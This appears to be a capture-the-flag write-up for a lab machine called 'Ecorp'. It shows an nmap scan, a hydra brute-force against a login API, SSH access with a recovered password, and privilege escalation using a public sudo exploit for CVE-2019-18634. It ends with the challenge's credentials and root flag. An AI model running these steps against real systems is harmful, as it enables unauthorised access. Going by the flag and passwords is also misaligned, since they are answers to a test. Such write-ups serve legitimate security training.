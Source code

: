 # Ecorp

## Enumeration
```bash
└─$ nmap  -sV -A -p- -sC  10.10.145.194             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 21:17 BST
Nmap scan report for 10.10.145.194
Host is up (0.045s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
|_  256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - E-Corp
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Home - E-Corp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.52 seconds
```
## Exploitation

#### source code of /login :
```
password = <!-- Remember the company policy: color + two digits number -->
```
### We can answer the web site for an hint for a password user, so I try to brute force it and I got the elliot hint 

```{"hint":"All is not black or white","username":"elliot"}```

### After a long time of research, wordlist creation and brute force tries i got the password 

#### run this command with hydra
```bash
hydra -P final -l elliot 10.10.115.29 http-post-form "/api/user/login:{"username"=^USER^, "password"=^PWD^}:Invalid Username Or Password"
```
#### and i got this
```
{username : "elliot", password : "darkgray37"}
```
### On the elliot account, I found his ssh password

```bash
echo "Im_M1st3r_R0b0T" | ssh elliot@<IP> 
```
## Privilege Escalation

### I run linpeas and find a CVE that I already use in another CTF : CVE-2019-18634
```bash
git clone git@github.com:saleemrashid/sudo-cve-2019-18634.git
```
### I create a python server to transfer the binary

```bash
chmod +x exploit ; ./exploit
```
## Root FLAG

```cd /root ; cat `ls` ```: EPI{C0nTr0L_Is_4N_Il7uS10n}






